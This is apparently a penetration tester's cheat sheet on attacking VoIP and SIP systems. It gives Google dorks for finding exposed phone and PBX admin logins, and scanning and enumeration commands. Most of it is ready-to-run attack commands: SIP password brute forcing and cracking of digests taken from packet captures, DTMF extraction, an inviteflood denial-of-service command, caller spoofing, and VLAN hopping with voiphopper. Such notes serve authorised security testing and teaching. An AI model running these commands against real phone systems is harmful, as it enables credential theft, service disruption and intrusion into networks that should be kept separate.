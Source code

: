 # VoIP

## Basic Messages

```
Request name	Description								RFC references
------------------------------------------------------------------------------------------------------
REGISTER	Register a SIP user.							RFC 3261
INVITE		Initiate a dialog for establishing a call. 				RFC 3261
ACK		Confirm that an entity has received.					RFC 3261
BYE		Signal termination of a dialog and end a call.				RFC 3261
CANCEL		Cancel any pending request.						RFC 3261
UPDATE		Modify the state of a session without changing the state of the dialog.	RFC 3311
REFER		Ask recipient to issue a request for the purpose of call transfer.	RFC 3515
PRACK		Provisional acknowledgement.						RFC 3262
SUBSCRIBE	Initiates a subscription for notification of events from a notifier.	RFC 6665
NOTIFY		Inform a subscriber of notifications of a new event.			RFC 6665
PUBLISH		Publish an event to a notification server.				RFC 3903
MESSAGE		Deliver a text message.	Used in instant messaging applications.		RFC 3428
INFO		Send mid-session information that does not modify the session state.	RFC 6086
OPTIONS		Query the capabilities of an endpoint					RFC 3261
```

## Enumeration

### Google Dork

```
# Grandstream phones
intitle:"Grandstream Device Configuration" Password
intitle:"Grandstream Device Configuration" (intext:password & intext:"Grandstream Device Configuration" & intext:"Grandstream Networks" | inurl:cgi-bin) -.com|org

# Cisco Callmanager
inurl:"ccmuser/logon.asp"
intitle:"Cisco CallManager User Options Log On" "Please enter your User ID and Password in the spaces provided below and click the Log On button"

# Cisco phones
inurl:"NetworkConfiguration" cisco

# Linksys phones
intitle:"Sipura SPA Configuration"

# Snom phones
intitle:"snom" intext:"Welcome to Your Phone!" inurl:line_login.htm

# Polycom SoundPoint IP & phones
intitle:"SoundPoint IP Configuration Utility - Registration"
"Welcome to Polycom Web Configuration Utility" "Login as" "Password"
intext: "Welcome to Polycom Web Configuration Utility" intitle:"Polycom - Configuration Utility" inurl:"coreConf.htm"
intitle:"Polycom Login" inurl:"/login.html"
intitle:"Polycom Login" -.com

# Elastix
intitle:"Elastix - Login page" intext:"Elastix is licensed under GPL"

# FreePBX
inurl:"maint/index.php?FreePBX" intitle: "FreePBX" intext:"FreePBX Admministration"
```

### Network Enumeration

```
# Using Nmap
sudo nmap --script=sip-methods -sU -p 5060 10.10.0.0/24

# Using svmap
sudo apt install sipvicious

# Use --fp to fingerprint the services
svmap 10.10.0.0/24 -p 5060-5070 [--fp]

# Metasploit
auxiliary/scanner/sip/options_tcp normal  No     SIP Endpoint Scanner (TCP)
auxiliary/scanner/sip/options     normal  No     SIP Endpoint Scanner (UDP)

# sippts
sippts scan -i 10.10.0.0/24 -p all -r 5060-5080 -th 200 -ua Cisco [-m REGISTER]
```

### Methods Enumeration

```
# sippts method enumration
sippts enumerate -i 10.10.0.10
```



## VoIP Attacks

### Password Brute Force (Online)

```
# Install sipvicious
sudo apt install sipvicious

# Crack known username
svcrack -u100 -d dictionary.txt udp://10.0.0.1:5080 

# Check username in extensions
svcrack -u100 -r1-9999 -z4 10.0.0.1 

# SIPPTS rcrack
sippts rcrack -i 10.10.0.10 -e 100,101,103-105 -w wordlist/rockyou.txt
```

### VoIP Sniffing

#### Brute Force Credentials - Offline

```
# Install sipcrack
apt-get install sipcrack

# Extract digest authentication from a pcap file and bruteforce
sipdump -p net-capture.pcap sip-creds.txt
sipcrack sip-creds.txt -w dict.txt

# Extract digest information
sippts dump -f capture.pcap -o data.txt

# Crack digest information
sippts dcrack -f data.txt -w wordlist/rockyou.txt

# Extract data of SIP protocol from a PCAP file
sippts tshark -f capture.pcap [-filter auth]
```

#### DTMF Codes

{% hint style="info" %}
**Not only SIP credentials** can be found in the network traffic, it's also possible to find DTMF codes which are used for example to access the **voicemail**. It's possible to send these codes in **INFO SIP messages**, in **audio** or inside **RTP packets**. If the codes are inside RTP packets, you could cut that part of the conversation and use the tool multimo to extract them:
{% endhint %}

```
multimon -a DTMF -t wac pin.wav
```

### Password Spraying

```
# Metasploit
use auxiliary/voip/viproy_sip_brutef
```

### Denail of Service

```
# Install inviteflood
sudo apt install inviteflood

# Run
inviteflood eth0 101 192.168.106.129 192.168.106.129 10000000
```

### Voicemail Spoofing

{% hint style="info" %}
**Voicemail spoofing** is possible due to unencrypted communications allowing us to manipulate the parameters in the **INVITE** request to impersonate anyone we like.
{% endhint %}

```
inviteflood eth0 102 192.168.106.129 192.168.106.129 1 -a "test"
```

### VLAN Hopping

{% hint style="info" %}
In a properly configured environment VoIP traffic is linked to a designated VLAN known as the Voice VLAN. Ideally, this VLAN should be completely segregated from the office network (DATA VLAN). This will prevent an attacker from intercepting VoIP traffic using a sniffing tool. VLAN hopping is the ability to jump from the VoIP network to the office network.

\
**VoipHopper** has a feature called Assessment Mode that is especially useful if we don’t know if we are dealing with well-known IP phones such as Cisco, AVAYA, etc.
{% endhint %}



```
# Install voiphopper
sudo apt install voiphopper

# Setup 802.1q in assessment VM
sudo modprobe 8021q

# VLAN hopping using assessment mode
voiphopper -i eth0 -z

# Hopping with known VLAN ID
voiphopper -i eth0 -v 30
```

If successful, we should see a new VLAN added to the interface we specified (eth0 in our example).



## REFERENCES

* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip](https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip)
* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip/basic-voip-protocols/sip-session-initiation-protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip/basic-voip-protocols/sip-session-initiation-protocol)
* [https://github.com/meliht/Mr.SIP](https://github.com/meliht/Mr.SIP)
* [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)
* [http://www.ietf.org/rfc/rfc3550.txt](http://www.ietf.org/rfc/rfc3550.txt)
* [http://www.ietf.org/rfc/rfc3261.txt](http://www.ietf.org/rfc/rfc3261.txt)
* [https://en.wikipedia.org/wiki/Voice\_over\_IP?source=post\_page-----a1791602e1b4--------------------------------](https://en.wikipedia.org/wiki/Voice\_over\_IP?source=post\_page-----a1791602e1b4--------------------------------)
